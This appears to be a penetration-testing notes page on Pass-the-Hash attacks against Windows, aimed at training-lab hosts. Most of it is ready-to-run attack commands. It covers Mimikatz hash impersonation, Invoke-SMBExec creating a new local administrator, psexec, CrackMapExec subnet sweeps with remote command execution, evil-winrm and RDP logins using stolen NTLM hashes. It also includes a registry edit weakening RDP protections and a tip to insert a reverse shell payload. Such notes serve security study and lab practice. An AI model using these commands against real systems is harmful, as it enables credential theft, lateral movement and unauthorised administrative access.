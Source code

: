 ```yaml
---
description: >-
  Is a technique where an attacker uses a password hash instead of the plain
  text password
---
```


# Pass the Hash (PtH)

the attacker must have administrative privileges or particular privileges on the target machine to obtain a password hash. Hashes can be obtained in several ways, including:

* Dumping the local SAM database from a compromised host.
* Extracting hashes from the NTDS database (ntds.dit) on a Domain Controller.
* Pulling the hashes from memory (lsass.exe).

### Mimikatz

```cmd-session
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

* `/user` - The user name we want to impersonate.
* `/rc4` or `/NTLM` - NTLM hash of the user's password.
* `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
* `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

> Note that: Mimikatz is one of the most useful tools that we will be using in the future for active directory boxes. Some additional points to be noted about Mimikatz.
>
> 1. You can run it with just mimikatz.exe and then slowly specify other commands.
> 2. To extract the hashes presented in the current session, instead of running `sekurlsa::pth` we can run `sekurlsa::logonpasswords` additional information could be found in the [`HackTricks`](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz) website

### Invoke-TheHash(PS)

To download the tools, access [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash) github.

```powershell-session
Import-Module .\Invoke-TheHash.psd1
```

<pre class="language-powershell-session"><code class="lang-powershell-session"><strong>Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add &#x26;&#x26; net localgroup administrators mark /add" -Verbose
</strong></code></pre>

* `Target` - Hostname or IP address of the target.
* `Username` - Username to use for authentication.
* `Domain` - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.
* `Hash` - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
* `Command` - Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.

> we can use reverse shell payload in the Command section of the code (`PowerShell #3 (Base64)`) and for the target we can specify machine name instead of IP address (either would work).

### Impacket

```shell-session
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

Following tools also works with PtH:

* [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
* [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
* [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

### CrackMapExec

**Pass the Hash with CrackMapExec**

```shell-session
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

**CrackMapExec - Command Execution**

```shell-session
crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

### evil-winrm

```shell-session
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

> Note: When using a domain account, we need to include the domain name, for example: administrator@inlanefreight.htb

### RDP

```shell-session
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

> for this method to work we have to set the value for `DisableRestrictedAdmin` as 0.
>
> To enable run:
>
> ```cmd-session
> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
> ```
>
> &#x20;Otherwise we will get the following error.
>
> <img src="../../../.gitbook/assets/image (12).png" alt="" data-size="original">




